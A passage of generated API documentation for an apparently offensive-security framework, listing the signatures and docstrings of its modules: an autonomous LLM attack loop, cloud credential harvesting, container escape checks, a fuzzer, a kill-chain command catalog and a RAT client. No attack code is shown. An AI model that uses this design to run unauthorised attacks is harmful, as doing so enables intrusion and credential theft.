- `_to_float` (line 129) `def _to_float(raw, default)` - *Parse a float flag value, falling back to the default.*
- `parse_loop_line` (line 137) `def parse_loop_line(line)` - *Parse one loop command line into a :class:`LoopRunConfig`.

Shared by ``lazy_loop`` and ``auto_loop`` so both accept the exact
same flags and defaults.

Args:
    line: Raw command line after the verb.

Returns:
    Parsed configuration.

Raises:
    ValueError: Empty line, unknown flag value or unbalanced quotes.*
- `build_executor` (line 225) `def build_executor(shell, config, stream, cancelled, sandbox_task_id, sandbox_image)` - *Build the worker executor: shell verbs, custom tools, safe bash.

Every branch is stdin-detached: shell verbs cannot prompt (input is
suppressed by the autonomous context), custom tools run through the
streaming runner, and raw bash goes through ``execute_streaming``
with ``stdin=DEVNULL`` and its own process group so Ctrl+C and time
limits always kill the child, never the operator's terminal.

When ``sandbox_task_id`` is set, routable shell verbs run inside the
per-task Docker container (``modules.lazy_sandbox``) instead of the
operator host; custom tools and raw bash stay local.*
- `_abort_run` (line 298) `def _abort_run(engine, task_id, reason)` - *Cancel streaming children, abort the runtime and pause the task.*
- `_prepare_engine` (line 317) `def _prepare_engine(engine, shell, config, params)` - *Bind shell and apply payload-driven tuning to the engine.*
- `_start_proxy` (line 331) `def _start_proxy(engine, params)` - *Start the recording proxy when payload asks for it (fail-soft).*
- `report_result` (line 356) `def report_result(result)` - *Print the final outcome of one loop run.*
- `_bootstrap` (line 380) `def _bootstrap(scan_target, executor)` - *Ingest an existing nmap XML through ``auto_populate`` before round 1.*
- `_run_with_progress` (line 394) `def _run_with_progress(engine, config)` - *Run orchestration behind the Rich milestone panel.

Bootstrap (``auto_populate`` over an existing nmap XML) runs inside
the same streamed thread as the orchestrator, so its transcript is
visible in the panel instead of disappearing behind the redirect.*
- `_overview` (line 500) `def _overview(task_id)` - *Best-effort graph overview for partial results.*
- `_format_activity` (line 510) `def _format_activity(record)` - *One compact English line per activity record for the operator.

Tool results are skipped because the raw output is already streamed
by the executor; everything else (claims, planner wakes, LLM calls
and retries, guard decisions, approvals, enrich, retest, compaction,
traffic, triggers) is surfaced so any runaway loop is visible.*
- `_dump_thread_stacks` (line 524) `def _dump_thread_stacks()` - *Dump all thread stacks to stderr so a stuck loop is identifiable.*
- `_poll_progress` (line 539) `def _poll_progress(engine, config, progress, transcript, worker)` - *Drain live output into the panel until the orchestrator finishes.

Two streams feed the operator: the executor transcript (tool calls
and raw output) and the task activity log (every engine step). A
stall watchdog warns and dumps thread stacks when neither moves.*
- `_terminal_stream` (line 634) `def _terminal_stream()` - *Return a stream writer bound to the *real* stdout.

Shell verbs run with ``stdout`` redirected into their capture
buffer; observers that print through ``sys.stdout`` would write into
that buffer instead of the terminal. ``sys.__stdout__`` bypasses the
redirect, so live output stays visible without feedback loops.*
- `_run_plain` (line 656) `def _run_plain(engine, config)` - *Run orchestration without the live panel (plain transcript).*
- `run_loop` (line 691) `def run_loop(shell, params, config)` - *Execute one complete loop run and return its summary.

Args:
    shell: Live LazyOwn shell (workers route verbs through it).
    params: Payload mapping (proxy/concurrency/verb timeout).
    config: Parsed command invocation.

Returns:
    Orchestrator summary with ``cancelled``/``error`` keys added.*
- `_tty_available` (line 773) `def _tty_available()` - *Return True when a real terminal is attached to this process.*
- `_resolve_alias` (line 242) `def _resolve_alias(command)`
- `_executor` (line 250) `def _executor(command)`
- `stream` (line 409) `def stream(text)`
- `_run` (line 446) `def _run()`
- `_write` (line 646) `def _write(text)`

**Methods:**
- `__init__` (line 51) `def __init__(self, main_stream, spool)` - *Bind the real stream and the worker spool queue.*
- `write` (line 57) `def write(self, data)` - *Route main-thread writes to the terminal, worker writes to spool.*
- `flush` (line 68) `def flush(self)` - *Flush the real stream; the spool needs no flushing.*
- `encoding` (line 76) `def encoding(self)` - *Report the real stream encoding.*
- `isatty` (line 80) `def isatty(self)` - *Report whether the real stream is a terminal.*
- `clamped` (line 107) `def clamped(self)` - *Clamp numeric knobs to the supported operating range.*

#### `lazy_sandbox.py`
**Path:** `modules/lazy_sandbox.py`
**File Doc:** *Per-task Docker sandbox for the Lazy autonomous loop.  Ports the per-flow container idea with Lazy semantics: one container per loop task, built from the existing ``Dockerfile.sandbox`` image (``lazyown-sandbox`` by default, the same tag ``./run`` uses), with the repository mounted at ``/app`` exactly like the documented sandbox usage. Workers keep issuing Lazy shell verbs; the sandbox executor pipes each verb into the in-container shell over stdin (``<verb>`` + ``exit``) and captures the cleaned output, so Guard, scope, traffic and intel see the same transcript shape as host execution.  Safety profile: no privileged flag, all capabilities dropped except ``NET_RAW`` (nmap needs raw sockets), memory/CPU caps, operator-owned network selection. The image is never auto-built inside a round (a build takes minutes and would wedge the loop); a missing image returns a capability-style error the worker records as a fact.  Stdlib only. All Docker interaction goes through the ``docker`` CLI so no SDK dependency is needed.*

**Functions:**
- `_payload_value` (line 41) `def _payload_value(key, default)` - *Read one payload value, falling back to default on any error.*
- `image_name` (line 52) `def image_name(configured)` - *Resolve the sandbox image name.

Args:
    configured: Explicit image from the ``--sandbox`` flag.

Returns:
    Explicit image, payload ``sandbox_image`` override, or default.*
- `container_name` (line 67) `def container_name(task_id)` - *Return the deterministic container name for one task.*
- `docker_available` (line 73) `def docker_available()` - *Return True when the docker CLI is on PATH.*
- `image_available` (line 78) `def image_available(image)` - *Return True when the sandbox image exists locally.*
- `container_running` (line 94) `def container_running(task_id)` - *Return the container name when it is up, else empty string.*
- `ensure_container` (line 112) `def ensure_container(task_id, image)` - *Start the per-task container when needed, return its name or error.

Args:
    task_id: Loop task identifier.
    image: Explicit image override.

Returns:
    Container name on success, ``execution failed: ...`` otherwise.*
- `exec_command` (line 180) `def exec_command(task_id, command, timeout_sec, image)` - *Run one Lazy shell verb inside the task container.

Args:
    task_id: Loop task identifier.
    command: Lazy shell verb line.
    timeout_sec: Hard timeout for the exec.
    image: Explicit image override.

Returns:
    Cleaned shell output, timeout notice with partial tail, or error.*
- `remove_container` (line 214) `def remove_container(task_id)` - *Stop and remove the task container. Never raises.*
- `status` (line 223) `def status(task_id)` - *Describe sandbox readiness and containers.

Args:
    task_id: Optional task to inspect.

Returns:
    Readiness dict with docker, image and container state.*
- `executor_for` (line 251) `def executor_for(task_id, image)` - *Build a worker executor routing shell verbs into the sandbox.

Args:
    task_id: Loop task identifier bound to one container.
    image: Explicit image override from ``--sandbox``.

Returns:
    Executor callable, or None when Docker is unusable (caller keeps
    host execution and the worker records the gap as usual).*
- `_sandbox_executor` (line 265) `def _sandbox_executor(command)`

#### `lazy_skill_mirror.py`
**Path:** `modules/lazy_skill_mirror.py`
**File Doc:** *Mirror LazyOwn skills for Hermes discovery.  Hermes loads skills from ``~/.hermes/skills/<group>/<name>/SKILL.md`` while opencode reads ``skills/<name>/SKILL.md`` in this repo, so the two runtimes never share one directory. This module derives thin Hermes-compatible mirrors under ``skills/<name>/hermes/SKILL.md`` from the repo frontmatter (name, description, version, author, license) and registers the parent ``skills/`` tree in the operator's ``~/.hermes/config.yaml`` ``skills.external_dirs`` — the same pattern opencode uses with its ``skills.paths`` list.  Mirrors only re-target the frontmatter; the body stays byte-identical so both agents read the same procedure. Never touches the operator's config without an explicit call; every write backs the file up first.*

**Functions:**
- `_split_frontmatter` (line 30) `def _split_frontmatter(text)` - *Split SKILL.md into frontmatter dict and body.*
- `_hermes_frontmatter` (line 45) `def _hermes_frontmatter(name, fields)` - *Build a Hermes-compatible frontmatter block for one skill.*
- `available_skills` (line 67) `def available_skills()` - *Return repo skill names that ship a SKILL.md.*
- `mirror_skill` (line 78) `def mirror_skill(name)` - *Write the Hermes mirror of one skill.

Args:
    name: Repo skill directory name.

Returns:
    Summary with path and changed flag; never raises.*
- `mirror_all` (line 106) `def mirror_all()` - *Mirror every repo skill; return per-skill summaries.*
- `_hermes_config_path` (line 112) `def _hermes_config_path()` - *Return the operator hermes config path.*
- `register_external_dirs` (line 117) `def register_external_dirs()` - *Register the repo skills tree in the hermes config.

Appends the ``skills/<name>/hermes`` parents to
``skills.external_dirs`` (deduplicated) with a timestamped backup.
Idempotent: a registered tree reports unchanged without writing.

Returns:
    Summary with changed flag and backup path; never raises.*

#### `lazy_skills.py`
**Path:** `modules/lazy_skills.py`
**File Doc:** *Skill context injection for planner/worker prompts.  Scans the repository ``skills/`` tree for SKILL.md documents (and loose markdown guides), matches them against the task goal with keyword scoring and feeds bounded excerpts into :func:`build_prompt_context`, so the autonomous LLM agents inherit operator playbooks without a separate tool call.  Selection contract: ``lazy_skill inject <name> --task T`` pins a skill in the task record; auto-matching stays on unless ``lazy_skill auto off``.*

**Functions:**
- `_frontmatter` (line 28) `def _frontmatter(text)` - *Split YAML frontmatter from the body, tolerating its absence.*
- `_skill_files` (line 42) `def _skill_files()` - *Return skill documents: ``*/SKILL.md`` plus loose ``*.md`` guides.*
- `_load` (line 53) `def _load(path)` - *Parse one skill document with an mtime cache.*
- `list_skills` (line 85) `def list_skills()` - *Return every parsed skill sorted by name.*
- `get_skill` (line 91) `def get_skill(name)` - *Find one skill by exact or case-insensitive name.*
- `match_skills` (line 102) `def match_skills(text, limit)` - *Rank skills whose keywords appear in the text, best first.*
- `skills_context` (line 118) `def skills_context(text, explicit, auto, budget)` - *Render pinned plus auto-matched skills as one prompt section.

Args:
    text: Goal/intent text used for auto matching.
    explicit: Skill names pinned on the task record.
    auto: Whether keyword auto-matching runs.
    budget: Max characters of the rendered section.

Returns:
    ``Skills: name :: excerpt | ...`` or an empty string.*

#### `lazy_summarizer.py`
**Path:** `modules/lazy_summarizer.py`
**File Doc:** *Bounded chain summarizer for the Lazy autonomous loop.  Ports the durable idea behind context-chain summarization: keep the newest section verbatim, compress older question/answer pairs into a digest, and mark compressed regions with an explicit prefix so downstream readers know they are reading a summary. Budgets are characters (cheap, dependency-free) instead of tokens.  Stdlib only. An optional ``complete`` callable upgrades truncation digests into model-written ones; without it the summarizer still bounds context.*

**Functions:**
- `_text_of` (line 26) `def _text_of(record)` - *Extract printable text from an activity record.*
- `should_compact` (line 35) `def should_compact(used_chars, budget_chars)` - *Return True when context exceeds the usable budget.

Args:
    used_chars: Current context size in characters.
    budget_chars: Total context budget in characters.

Returns:
    True when the usable share (budget minus reserve) is exceeded.*
- `summarize_chain` (line 50) `def summarize_chain(records, budget_chars, complete)` - *Bound a record chain to budget, digesting the oldest pairs.

The newest section (up to ``MAX_LAST_SECTION_CHARS``) is preserved
verbatim. Older records collapse into digest records prefixed with
:data:`LAZY_DIGEST_PREFIX`, keeping at most ``MAX_QA_SECTIONS``
sections and ``MAX_QA_CHARS`` characters of history.

Args:
    records: Activity records with worker/kind/text keys.
    budget_chars: Total character budget for the returned chain.
    complete: Optional model callable turning a truncation excerpt
        into a denser digest. Failures fall back to truncation.

Returns:
    Bounded record list, oldest first, digests marked by prefix.*
- `_digest` (line 100) `def _digest(older, complete)` - *Compress older records into one dense digest string.*
- `_truncate_records` (line 126) `def _truncate_records(records, budget)` - *Keep the newest records fitting into budget characters.*

#### `lazycloud.py`
**Path:** `modules/lazycloud.py`
**File Doc:** *Cloud-native attack module for AWS, Azure, and GCP.  Provides enumeration, misconfiguration detection, credential harvesting, and privilege escalation techniques for the three major cloud providers. All operations are read-only by default — destructive flags are explicit.*

**Classes:**
- `CloudResource` (line 87) `class CloudResource` - *A discovered cloud resource.*
- `CloudFinding` (line 98) `class CloudFinding` - *A security finding for a cloud resource.*
- `CloudMetadataHarvester` (line 108) `class CloudMetadataHarvester` - *Harvest credentials and configuration from cloud instance metadata.*
- `CloudBucketEnumerator` (line 248) `class CloudBucketEnumerator` - *Enumerate cloud storage buckets for misconfigurations.*
- `CloudIAMEnumerator` (line 342) `class CloudIAMEnumerator` - *Enumerate IAM roles, users, and policies across cloud providers.*
- `CloudScanner` (line 390) `class CloudScanner` - *End-to-end cloud security scanner combining all three providers.*

**Functions:**
- `_aws_sig` (line 361) `def _aws_sig(key, msg)`
- `_sign` (line 364) `def _sign(key, msg)`

**Methods:**
- `__init__` (line 111) `def __init__(self, timeout)`
- `session` (line 116) `def session(self)`
- `_get` (line 122) `def _get(self, url, headers)`
- `harvest_aws` (line 139) `def harvest_aws(self)` - *Harvest AWS EC2 instance metadata (IMDSv2 capable).*
- `harvest_azure` (line 184) `def harvest_azure(self)` - *Harvest Azure instance metadata.*
- `harvest_gcp` (line 208) `def harvest_gcp(self)` - *Harvest GCP instance metadata.*
- `harvest_all` (line 231) `def harvest_all(self)` - *Try all three cloud providers sequentially.*
- `__init__` (line 251) `def __init__(self, timeout)`
- `session` (line 256) `def session(self)`
- `_check_url` (line 262) `def _check_url(self, url)`
- `enumerate_s3` (line 278) `def enumerate_s3(self, prefix, buckets)` - *Enumerate S3 buckets derived from a prefix.*
- `enumerate_azure_storage` (line 303) `def enumerate_azure_storage(self, prefix, accounts)` - *Enumerate Azure Blob Storage accounts.*
- `enumerate_gcp_storage` (line 321) `def enumerate_gcp_storage(self, prefix, buckets)` - *Enumerate GCP Storage buckets.*
- `enumerate_aws_iam` (line 345) `def enumerate_aws_iam(self, access_key, secret_key, session_token)` - *Enumerate AWS IAM (requires valid credentials).*
- `__init__` (line 393) `def __init__(self, target_domain, timeout)`
- `full_scan` (line 400) `def full_scan(self, target_prefix, sessions_dir)` - *Perform a comprehensive cloud security scan.

Args:
    target_prefix: Company name or prefix for bucket enumeration.
    sessions_dir: Directory to write results.

Returns:
    Aggregated scan results.*
- `quick_metadata` (line 456) `def quick_metadata(self)` - *Fast metadata-only harvest (no bucket enumeration).*
- `quick_buckets` (line 460) `def quick_buckets(self, prefix)` - *Fast S3-only bucket check.*

#### `lazyencoder_decoder.py`
**Path:** `modules/lazyencoder_decoder.py`

**Functions:**
- `base64_encode` (line 4) `def base64_encode(data)`
- `base64_decode` (line 8) `def base64_decode(data)`
- `caesar_cipher` (line 13) `def caesar_cipher(text, shift)`
- `caesar_decipher` (line 27) `def caesar_decipher(text, shift)`
- `key_substitution` (line 31) `def key_substitution(text, key)`
- `key_substitution_reverse` (line 47) `def key_substitution_reverse(text, key)`
- `encode` (line 63) `def encode(data, shift, key)`
- `encode_string` (line 75) `def encode_string(data, shift, key)`
- `decode` (line 82) `def decode(data, shift, key)`
- `decode_string` (line 94) `def decode_string(data, shift, key)`

#### `lazyk8s.py`
**Path:** `modules/lazyk8s.py`
**File Doc:** *Container and Kubernetes attack module.  Provides enumeration, exploitation, privilege escalation, and escape techniques for containerized environments and Kubernetes clusters.  Supports Docker, containerd, CRI-O runtimes and Kubernetes API interaction.*

**Classes:**
- `ContainerResource` (line 20) `class ContainerResource` - *A discovered container or cluster resource.*
- `ContainerFinding` (line 30) `class ContainerFinding` - *A security finding in a container environment.*
- `DockerEnumerator` (line 41) `class DockerEnumerator` - *Enumerate Docker host and containers.*
- `K8sEnumerator` (line 264) `class K8sEnumerator` - *Enumerate Kubernetes clusters via API or kubeconfig.*
- `ContainerEscapeTechniques` (line 624) `class ContainerEscapeTechniques` - *Collection of container escape techniques and detection.*
- `ContainerRuntimeDetector` (line 759) `class ContainerRuntimeDetector` - *Auto-detect container runtime and available escape primitives.

Supports: Docker, containerd, CRI-O, Podman, LXC/LXD, systemd-nspawn.*

**Methods:**
- `__init__` (line 44) `def __init__(self, socket_path)`
- `is_socket_accessible` (line 47) `def is_socket_accessible(self)` - *Check if the Docker socket is readable/writable.*
- `_docker_api` (line 51) `def _docker_api(self, endpoint)` - *Make a raw HTTP request to the Docker Unix socket.*
- `list_containers` (line 70) `def list_containers(self)` - *List all containers with extended information.*
- `list_images` (line 94) `def list_images(self)` - *List all Docker images.*
- `inspect_container` (line 118) `def inspect_container(self, container_id)` - *Get detailed configuration of a container (privileged, mounts, capabilities).*
- `check_privileged_containers` (line 137) `def check_privileged_containers(self)` - *Find containers running with --privileged flag.*
- `check_sensitive_mounts` (line 162) `def check_sensitive_mounts(self)` - *Find containers with sensitive host path mounts.*
- `check_docker_socket_mount` (line 196) `def check_docker_socket_mount(self)` - *Find containers with the Docker socket mounted (escape vector).*
- `check_capabilities` (line 217) `def check_capabilities(self)` - *Find containers with dangerous Linux capabilities.*
- `full_check` (line 250) `def full_check(self)` - *Execute all Docker security checks and return aggregated results.*
- `__init__` (line 267) `def __init__(self, kubeconfig, token, api_server)`
- `_load_kubeconfig` (line 274) `def _load_kubeconfig(self)`
- `_get_k8s_api` (line 285) `def _get_k8s_api(self, path)`
- `list_pods` (line 366) `def list_pods(self, namespace)` - *List pods in all namespaces or a specific namespace.*
- `list_namespaces` (line 390) `def list_namespaces(self)` - *List all namespaces.*
- `list_secrets` (line 410) `def list_secrets(self, namespace)` - *List secrets (without decoding values by default).*
- `list_service_accounts` (line 462) `def list_service_accounts(self, namespace)` - *List service accounts and their attached roles.*
- `check_rbac` (line 498) `def check_rbac(self)` - *Check current user's RBAC permissions.*
- `check_pod_escape_vectors` (line 530) `def check_pod_escape_vectors(self)` - *Check for pod escape vectors in the current pod.*
- `full_check` (line 582) `def full_check(self, sessions_dir)` - *Execute all Kubernetes security checks.*
- `detect_current_environment` (line 684) `def detect_current_environment()` - *Detect if running inside a container and identify escape opportunities.*
- `detect_runtime` (line 803) `def detect_runtime()` - *Detect container runtime from multiple indicators.

Returns:
    Dict with runtime info including name, confidence, and indicators.*
- `detect_mounts` (line 874) `def detect_mounts()` - *Detect dangerous mounts in the current container.

Returns:
    Dict with categories of dangerous mounts found.*
- `detect_dangerous_capabilities` (line 921) `def detect_dangerous_capabilities()` - *Detect dangerous Linux capabilities in the current container.

Returns:
    List of dangerous capabilities found.*
- `auto_detect_all` (line 992) `def auto_detect_all()` - *Run comprehensive container escape auto-detection.

Combines runtime detection, environment detection, mount analysis,
and capability enumeration into a single report.

Returns:
    Comprehensive assessment dict.*

#### `lazyown_bprfuzzer.py`
**Path:** `modules/lazyown_bprfuzzer.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Lazy Burp-Like Fuzzer con Proxy y Repeater  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Classes:**
- `ProxyHandler` (line 114) `class ProxyHandler(BaseHTTPRequestHandler)`

**Functions:**
- `_load_security_config` (line 45) `def _load_security_config()` - *Return a :class:`SecurityConfig` from ``payload.json`` when present.

A missing or unreadable payload file falls back to the
conservative defaults so the fuzzer can be invoked even before
the framework wizard has produced a configuration.*
- `load_headers_from_file` (line 93) `def load_headers_from_file(file_path)`
- `load_data_from_file` (line 99) `def load_data_from_file(file_path)`
- `signal_handler` (line 105) `def signal_handler(sig, frame)`
- `run_proxy` (line 162) `def run_proxy(port)`
- `edit_file_with_nano` (line 169) `def edit_file_with_nano(content)`
- `send_request` (line 179) `def send_request(url, method, headers, params, data, json_data, proxies, hide_code)` - *Envía una solicitud HTTP y devuelve la respuesta.*
- `repeater` (line 203) `def repeater(url, method, headers, params, data, json_data, proxies, hide_code)` - *Funcionalidad de Repeater que permite enviar solicitudes múltiples veces con posibilidad de modificación.*
- `lazyfuzz` (line 233) `def lazyfuzz(url, method, headers, params, data, json_data, proxies, wordlist_path, hide_code)` - *Funcionalidad de fuzzing que reemplaza LAZYFUZZ con palabras de una wordlist.*
- `parse_arguments` (line 278) `def parse_arguments()` - *Parsear los argumentos de la línea de comandos.*
- `main` (line 302) `def main()`

**Methods:**
- `do_GET` (line 115) `def do_GET(self)`
- `do_POST` (line 118) `def do_POST(self)`
- `_handle_request` (line 121) `def _handle_request(self, method)`

#### `lazyown_bridge.py`
**Path:** `modules/lazyown_bridge.py`
**File Doc:** *modules/lazyown_bridge.py ========================== Full-coverage structured catalog of all LazyOwn do_ commands mapped to attack phases, MITRE ATT&CK tactics, and discovered service types.  Integrates with the MCP auto_loop to provide phase-aware, service-matched command selection without modifying lazyown.py.  Design (SOLID) -------------- - Single Responsibility : CommandCatalog owns only the command registry; PhaseSelector owns only phase-to-command resolution; ServiceMatcher owns only service-type detection; ContextEnricher owns only arg substitution. - Open/Closed           : add new phases/tactics via CatalogEntry, no edits needed. - Liskov                : all Selector subclasses honour Optional[CatalogEntry] contract. - Interface Segregation : BridgeDispatcher exposes only what auto_loop needs. - Dependency Inversion  : BridgeDispatcher depends on AbstractSelector abstraction.  Phases ------ recon       -> 01. Reconnaissance enum        -> 02. Scanning & Enumeration exploit     -> 03. Exploitation postexp     -> 04. Post-Exploitation persist     -> 05. Persistence privesc     -> 06. Privilege Escalation cred        -> 07. Credential Access lateral     -> 08. Lateral Movement*

**Classes:**
- `CatalogEntry` (line 48) `class CatalogEntry` - *A single LazyOwn command with metadata for intelligent selection.*
- `CommandCatalog` (line 115) `class CommandCatalog` - *Full registry of CatalogEntry objects for all LazyOwn phases.*
- `AbstractSelector` (line 3984) `class AbstractSelector(ABC)`
- `ServiceAwareSelector` (line 4002) `class ServiceAwareSelector(AbstractSelector)` - *Priority + service matching selector with credential gate.*
- `MitreAlignedSelector` (line 4042) `class MitreAlignedSelector(AbstractSelector)` - *Prefer MITRE-matching commands; fall back to ServiceAwareSelector.*
- `TagSelector` (line 4071) `class TagSelector(AbstractSelector)` - *Select commands by tag (e.g. 'kerberos', 'web', 'impacket').*
- `ContextEnricher` (line 4103) `class ContextEnricher` - *Builds final command strings from CatalogEntry + WorldModel facts.*
- `PhaseMapper` (line 4153) `class PhaseMapper` - *Maps WorldModel EngagementPhase values to bridge phase strings.

Delegates core engagement-to-CLI mapping to :class:`modules.killchain.KillChain`
as the single source of truth for canonical phases. The bridge maintains its
own extended namespace (postexp, cred, persist, c2) for tool categorization
that extends beyond the canonical 8-phase kill chain.*
- `BridgeDispatcher` (line 4233) `class BridgeDispatcher` - *Public facade used by the MCP auto_loop and MCP tool handlers.
Combines catalog + selector + enricher into a single suggest() call.*

**Functions:**
- `get_dispatcher` (line 4409) `def get_dispatcher()`

**Methods:**
- `build_command` (line 63) `def build_command(self, target, port, user, password, domain, url, wordlist, lhost, lport)` - *Return 'command [args]' with known values substituted.*
- `matches_service` (line 94) `def matches_service(self, services)`
- `matches_os` (line 104) `def matches_os(self, os_hint)`
- `__init__` (line 118) `def __init__(self)`
- `_populate` (line 122) `def _populate(self)`
- `by_phase` (line 3946) `def by_phase(self, phase)`
- `by_mitre` (line 3952) `def by_mitre(self, technique_id)`
- `by_service` (line 3956) `def by_service(self, service_name)`
- `by_tag` (line 3960) `def by_tag(self, tag)`
- `by_os` (line 3963) `def by_os(self, os_hint)`
- `all_phases` (line 3966) `def all_phases(self)`
- `get` (line 3969) `def get(self, command)`
- `count` (line 3975) `def count(self)`
- `select` (line 3986) `def select(self, catalog, phase, services, has_creds, excluded, os_hint)`
- `select` (line 4005) `def select(self, catalog, phase, services, has_creds, excluded, os_hint)`
- `__init__` (line 4045) `def __init__(self, technique_id)`
- `select` (line 4049) `def select(self, catalog, phase, services, has_creds, excluded, os_hint)`
- `__init__` (line 4074) `def __init__(self, tag)`
- `select` (line 4078) `def select(self, catalog, phase, services, has_creds, excluded, os_hint)`
- `enrich` (line 4106) `def enrich(self, entry, target, world_snapshot)`
- `canonical_kill_chain_order` (line 4204) `def canonical_kill_chain_order()` - *Return the canonical 8-phase order from KillChain (single source of truth).*
- `to_bridge_phase` (line 4210) `def to_bridge_phase(self, wm_phase)`
- `kill_chain_order` (line 4223) `def kill_chain_order(self)` - *Ordered list of bridge phases following the kill chain.*
- `__init__` (line 4239) `def __init__(self, catalog, selector, enricher, phase_mapper)`
- `suggest` (line 4251) `def suggest(self, phase, target, services, has_creds, excluded, world_snapshot, mitre_hint, tag_hint, os_hint)` - *Return (command_string, entry) or None.

Parameters
----------
phase       : WorldModel or bridge phase string (auto-translated)
target      : IP/hostname for arg substitution
services    : discovered service strings ["http:80", "smb:445", ...]
has_creds   : credentials known in WorldModel
excluded    : command names to skip
world_snapshot : WorldModel.snapshot() dict
mitre_hint  : prefer commands matching this MITRE technique
tag_hint    : prefer commands with this tag (e.g. "kerberos")
os_hint     : "linux", "windows", or "any"*
- `suggest_sequence` (line 4296) `def suggest_sequence(self, phase, target, services, has_creds, excluded, world_snapshot, limit)` - *Return up to `limit` non-excluded suggestions for the phase.*
- `suggest_for_wm_phase` (line 4325) `def suggest_for_wm_phase(self, wm_phase_value, target, services, has_creds, excluded, world_snapshot)`
- `list_phase` (line 4343) `def list_phase(self, phase)`
- `all_phases` (line 4347) `def all_phases(self)`
- `catalog_summary` (line 4350) `def catalog_summary(self)`
- `catalog_summary_filtered` (line 4358) `def catalog_summary_filtered(self, phase, os_hint)` - *Return a kill-chain summary restricted to a phase and target OS.

Args:
    phase: Optional WorldModel-or-bridge phase identifier. When
        provided the summary contains only that phase (translated
        through :class:`PhaseMapper`). When ``None`` every phase
        in the kill-chain order is included.
    os_hint: Target OS filter (``"any"``, ``"linux"``, ``"windows"``).
        Entries are kept when :meth:`CatalogEntry.matches_os`
        returns ``True``. The value ``"any"`` disables the filter.

Returns:
    Mapping of phase identifier to the ordered list of command
    names that survived the filters. Empty phases are omitted so
    agents do not waste tokens on blank sections.*
- `catalog_count` (line 4395) `def catalog_count(self)`
- `phase_kill_chain` (line 4398) `def phase_kill_chain(self)`

#### `lazyown_metaextract0r.py`
**Path:** `modules/lazyown_metaextract0r.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Extractor de metadata inspirado en la FOCA  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Functions:**
- `signal_handler` (line 42) `def signal_handler(sig, frame)`
- `extract_pdf_metadata` (line 51) `def extract_pdf_metadata(file_path)`
- `extract_docx_metadata` (line 62) `def extract_docx_metadata(file_path)`
- `extract_ole_metadata` (line 73) `def extract_ole_metadata(file_path)`
- `extract_image_metadata` (line 85) `def extract_image_metadata(file_path)`
- `extract_metadata` (line 96) `def extract_metadata(file_path)`
- `find_and_extract_metadata` (line 109) `def find_and_extract_metadata(directory, output_file)`
- `parse_arguments` (line 130) `def parse_arguments()` - *Parse command-line arguments.*
- `main` (line 140) `def main()`

#### `lazyown_parquet_tool.py`
**Path:** `modules/lazyown_parquet_tool.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: LazyOwn Binary find in gtofbins db  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Functions:**
- `highlight_term` (line 34) `def highlight_term(text, term)` - *Highlight the search term in the given text.*
- `search_in_parquet` (line 39) `def search_in_parquet(term, parquet_files)` - *Search for a term in the given Parquet files and return matching rows.*
- `buscar_binarios` (line 53) `def buscar_binarios(args)` - *Search for binaries with special permissions and generate a results CSV.*
- `ejecutar_opciones` (line 136) `def ejecutar_opciones()` - *Execute options based on the found data.*

#### `lazyownclient.py`
**Path:** `modules/lazyownclient.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Cliente LazyOwn Rat  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Functions:**
- `signal_handler` (line 34) `def signal_handler(sig, frame)`
- `pad` (line 51) `def pad(s)`
- `encrypt` (line 55) `def encrypt(plaintext, key)`
- `decrypt` (line 62) `def decrypt(ciphertext, key)`
- `handle_command` (line 69) `def handle_command(cmd, key)`
- `main` (line 198) `def main()`

#### `lazyownerweb.py`
